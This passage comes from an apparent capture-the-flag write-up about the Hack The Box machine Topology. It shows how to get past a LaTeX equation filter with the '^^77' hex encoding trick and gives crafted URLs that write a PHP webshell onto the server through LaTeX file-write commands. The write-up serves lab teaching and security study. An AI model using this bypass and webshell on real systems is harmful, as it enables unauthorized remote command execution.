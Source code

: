[Ippsec](https://ippsec.rocks/?#) was reading [this blog post](https://sk3rts.rocks/posts/bypassing-latex-filters/) about bypassing LaTeX filters where it talks about a bypass using the `\catcode` directive:

> ### How does it work?
>
> To start, it sets the “ **@**” character to represent superscript values. We use two of them to tell LaTeX to use the hex value that follows after.

His thought was to just use `^` and see if that works, and it does! We tried something like `\input`, and it goes from blocked to crashing:

![image-20231102163135052](https://0xdf.gitlab.io/img/image-20231102163135052.png)

This isn’t execution, but it is bypassing the filter. What does work is `\write`. On it’s own, it’s blocked:

![image-20231102163221608](https://0xdf.gitlab.io/img/image-20231102163221608.png)

But replace the “w” with “^^77” and it gets through.

### WebShell

To write a file, I’ll need a few LaTeX commands:

```
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile

```

To send those to Topology, I initially tried `;` as a separator, but no separator at all works as well:

```
http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.tex\^^77rite\outfile{0xdf%20was%20here}\closeout\outfile

```

When I send this, the resulting PNG is empty:

![image-20231102170149211](https://0xdf.gitlab.io/img/image-20231102170149211.png)

Going over to `latex.topology.htb/tempfiles`, it’s there:

![image-20231102170220688](https://0xdf.gitlab.io/img/image-20231102170220688.png)

I’ll change the written text to a PHP webshell, and the output filename to `cmd.php`:

```
http://latex.topology.htb/equation.php?eqn=\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php%20system($_REQUEST[%27cmd%27]);%20?%3E}\closeout\outfile

```
